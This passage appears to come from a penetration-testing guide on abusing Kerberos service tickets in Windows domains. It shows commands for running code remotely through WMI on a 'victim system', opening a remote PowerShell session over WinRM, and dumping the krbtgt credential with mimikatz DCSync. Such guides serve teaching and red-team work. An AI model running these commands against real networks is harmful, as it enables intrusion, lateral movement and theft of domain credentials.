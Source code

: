 ### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list 
```

Find **more information about wmiexec** in the following page:

{% page-ref page="../ntlm/wmicexec.md" %}

### HOST + WSMAN \(WINRM\)

With winrm access over a computer you can **access it** and even get a PowerShell:

```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```

Check the following page to learn **more ways to connect with a remote host using winrm**:

{% page-ref page="../ntlm/winrm.md" %}

{% hint style="warning" %}
Note that **winrm must be active and listening** on the remote computer to access it.
{% endhint %}

### LDAP

With this privilege you can dump the DC database using **DCSync**:

```text
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```

**Learn more about DCSync** in the following page:

{% page-ref page="dcsync.md" %}
